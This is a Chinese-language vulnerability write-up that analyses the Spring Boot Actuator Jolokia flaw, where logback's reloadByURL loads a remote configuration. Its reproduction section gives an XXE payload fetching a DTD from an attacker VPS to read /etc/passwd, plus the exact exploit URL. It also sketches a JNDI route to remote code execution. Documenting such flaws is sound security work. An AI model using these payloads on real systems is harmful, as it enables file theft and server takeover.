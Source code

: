 ```yaml
---
title: Spring Boot Actuator jolokia 配置不当导致的远程文件包含漏洞
id: zhfly3132
---
```


# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。
***前提条件***
**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.0-sec.org:9090/jolokia/list 
```

![4140320665.png](../img/f20f5c7e823f0d037b8142c60dd0f210.png)

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![image](../img/bf0806e61a0a6fc126b4d00804252268.png)

只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里

![image](../img/946a6fbf3f2505d41410886b6fe26bb2.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到
可以根据 **path** 节点新建 **JmxRequest** 对象
大致如下图所示，有这么些类别可以指定

![image](../img/870196513b650678e707633837cb0aa0.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![image](../img/9b921a5dd7571988b5f80c712698d79e.png)

跟进 initObjectName 函数，如下

![image](../img/e16c1ee02ab43085ad3bf65530c5e796.png)

如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![image](../img/b9b755dff799e11d97900b0991463ace.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![image](../img/113fcb5b6cf0b539664c1c7458d01328.png)

如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![image](../img/e9a10bbdfe253acc034611e4dc4e2437.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![image](../img/994933184ba9de2206bd6590045bc239.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![image](../img/90246ad1a06b2fd4f154015b453c746e.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：

![image](../img/fb1cc522e02a051a423f734adbed5021.png)

继续跟进上图中的红色方框如下

![image](../img/96808491a62e3e896c4d318c109108b1.png)

如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![image](../img/6f9a4577dc67626e2f515e0dd0edba44.png)

很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![image](../img/49173cddf7d8b37f247b4bb2eeca7f5a.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥

![image](../img/50d28afbb1ec410a6f70bfa71d91af76.png)

其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

*   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a> 
```

*   在VPS上创建ian.dtd

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>"> 
```

![2.png](../img/d67da368e964591ed55f7cd1978e5e7e.png)

*   开启http服务

```
python -m SimpleHTTPServer 80 
```

*   远程访问logback.xml文件

```
https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml 
```

![1.png](../img/c26997d908ed601561d2d89cd97afa7f.png)

*   可以看到服务器上也返回了响应日志
    ![3.png](../img/1d88a7a192f0a76444971681aade5832.png)

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/